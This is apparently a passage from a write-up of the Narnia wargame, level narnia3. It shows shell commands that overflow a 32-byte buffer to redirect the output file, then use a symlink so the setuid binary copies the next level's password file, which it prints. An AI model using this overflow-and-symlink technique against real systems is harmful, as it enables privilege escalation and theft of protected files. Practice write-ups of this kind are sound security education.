 ``` shell
narnia3@narnia:/narnia$ ./narnia3 $(python -c 'print "_"*32 + "/tmp/foo"')
error opening /tmp/foo
narnia3@narnia:/narnia$ touch /tmp/foo
narnia3@narnia:/narnia$ ./narnia3 $(python -c 'print "_"*32 + "/tmp/foo"')
error opening ________________________________/tmp/foo
```

By providing an argument longer than 32 characters, we override the contents of `ofile`. The tricky bit is to make sure the last part of our input file matches that of our output. So if we output to `/tmp/foo`, our input must be `<something>/tmp/foo`.

``` shell
narnia3@narnia:/narnia$ python -c 'print len("/tmp/symbolic_link_to_narnia4___")'
32
narnia3@narnia:/narnia$ mkdir -p /tmp/symbolic_link_to_narnia4___/tmp/
narnia3@narnia:/narnia$ touch /tmp/symbolic_link_to_narnia4___/tmp/foo
narnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/symbolic_link_to_narnia4___/tmp/foo
narnia3@narnia:/narnia$ ./narnia3 /tmp/symbolic_link_to_narnia4___/tmp/foo
copied contents of /tmp/symbolic_link_to_narnia4___/tmp/foo to a safer place... (/tmp/foo)
narnia3@narnia:/narnia$ cat /tmp/foo
thaenohtai
▒▒▒4▒}0,narnia3@narnia:/narnia$
```

Easy.
